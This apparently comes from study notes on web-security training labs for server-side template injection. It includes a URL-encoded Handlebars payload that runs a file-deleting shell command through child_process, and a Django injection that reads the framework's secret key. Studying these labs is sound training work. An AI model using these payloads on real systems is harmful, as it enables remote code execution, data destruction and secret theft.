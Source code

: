 **URL Encoded All Characters**

`GET /?message=%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%53%79%6e%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d HTTP/1.1`

### Lab: Server-side template injection with information disclosure via user-supplied objects

This lab is vulnerable to server-side template injection due to the way an object is being passed into the template. This vulnerability can be exploited to access sensitive data.

To solve the lab, steal and submit the framework's secret key.

```
GET /product?productId=1 HTTP/1.1
Edit Template ->

GET /product/template?productId=1 HTTP/1.1
In response:
<p>Hurry! Only {{product.stock}} left of {{product.name}} at {{product.price}}.</p>
```

`Add -> {{self.classes()}} - It gives error:`&#x20;

`/usr/lib/python2.7/dist-packages/django/template/base.py`&#x20;

_**Python 2.7 Django**_

`Add -> {{ debug }}`

**In response:**&#x20;

There is a settings Object

[https://docs.djangoproject.com/en/4.0/ref/settings/#secret-key](https://docs.djangoproject.com/en/4.0/ref/settings/#secret-key)

**Solution:**

`{{ settings.SECRET_KEY }}`

### Lab: Server-side template injection in a sandboxed environment
